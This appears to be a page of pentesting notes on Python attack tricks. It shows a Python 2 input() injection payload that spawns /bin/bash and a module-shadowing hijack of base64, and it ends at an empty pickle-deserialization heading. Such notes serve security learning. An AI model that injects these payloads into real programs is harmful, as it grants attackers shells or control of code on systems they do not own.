 # Python

## python2 input

In python 2, the `input` function worked in an interesting manner.  It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function.  However, this also allowed any arbitrary code to be injected.  In cases where you have a python 2 style input mechanism, simply write the following:

```py
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and `raw_input` from python 2 replaced it.

## Module Overwrite

Consider the following program:

```py
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```bash
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```py
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules.  Consequently, it is more than possible to take over a module even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

## Pickle Deserialization



